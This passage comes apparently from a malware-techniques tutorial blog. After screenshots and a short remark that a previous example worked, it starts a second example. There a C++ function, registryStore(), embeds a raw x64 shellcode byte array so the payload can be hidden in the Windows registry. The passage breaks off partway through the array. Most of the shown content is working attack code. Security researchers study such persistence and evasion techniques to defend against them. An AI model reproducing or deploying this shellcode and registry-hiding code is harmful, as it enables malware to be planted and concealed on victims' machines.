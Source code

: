 ![malw-tricks](/assets/images/96/2023-05-22_19-13.png){:class="img-responsive"}      

![malw-tricks](/assets/images/96/2023-05-22_19-14.png){:class="img-responsive"}      

As you can see, everything is worked perfectly! =^..^=    

### practical example 2

What about to store payload in registry? Let's go to check it in practice.      

Just modify our functions from `hack.cpp`:      

```cpp
void registryStore() {
  HKEY hkey;

  const unsigned char data[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
```
